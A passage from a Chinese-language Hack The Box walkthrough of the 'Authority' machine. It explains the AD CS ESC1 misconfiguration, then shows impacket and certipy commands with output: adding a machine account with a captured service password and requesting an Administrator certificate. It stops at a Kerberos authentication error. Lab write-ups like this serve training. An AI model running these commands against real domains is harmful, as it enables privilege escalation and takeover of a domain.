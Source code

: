 ```bash
      ESC1                              : 'AUTHORITY.HTB\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

从枚举结果可知，可以使用 `Domain Computers` 进行 `ESC1` 攻击，让我们详细分析下，为什么我们可以使用 ESC1 攻击：

ESC1攻击所需要的前提条件为
1. Enterprise CA授予低权限账户注册权
2. Manager approval处于关闭状态(这样申请的证书就会自动通过，而不需要管理人员手动批准)
3. 不需要授权签名
4. Certificate Template定义了启用身份认证的 EKU。
5. Certificate Template允许请求者在 `CSR` 中指定 `subjectAltName (SAN)` (这一步可以让攻击者自行指定证书的"主体信息"。也就是说攻击者可以声明这张证书的主体是"Administrator"，那么攻击者使用这张证书向域控发起身份认证的时候，域控就会认为攻击者是"Administrator")。

从`certipy`的扫描结果我们可以看到已经几乎满足 ESC1 攻击的条件(为方便阅读，我将每一条对应条件都使用编号的形式标记在了上面的扫描结果中)
1. 注册权(Enrollment Rights) --> 不满足
2. Manager approval处于关闭状态(Requires Manager Approval--> False)
3. 不需要授权签名(Authorized Signature Required --> 0)
4. 启用客户端认证(Client Authentication --> True) 或者 扩展密钥使用客户端认证(Extended Key Usage --> Client Authentication).
5. 允许请求者在 `CSR` 中指定 `(SAN)`(Enrollee Supplies Subject --> True)

根据分析可知，由于我们控制的只是普通的 `Domain User` 域用户，不具备注册权。那么有没有另一种办法可以进行证书注册呢？

有的，我们可以创建一个计算机账户（域用户通常都会具有创建计算机账户的权限）

```bash
kali@kali[~]$ impacket-addcomputer 'authority.htb'/'svc_ldap':'lDaP_1n_th3_cle4r!' -method LDAPS -computer-name 'Machine01$' -computer-pass 'MyPassword123!' -dc-ip 10.10.11.222
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account Machine01$ with password MyPassword123!.
```

由于计算机账户也就是 `Domain Computers` 组成员，具有注册权，我们可以使用刚注册的机器账户进行 ESC1 攻击，接下来我们利用ESC1漏洞提权到 `Administrator` 权限

```bash
kali@kali[~]$ certipy-ad req -u 'Machine01$' -p 'MyPassword123!' -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 17
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

kali@kali[~]$ certipy-ad auth -pfx administrator.pfx -username Administrator -domain authority.htb -dc-ip 10.10.11.222
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```
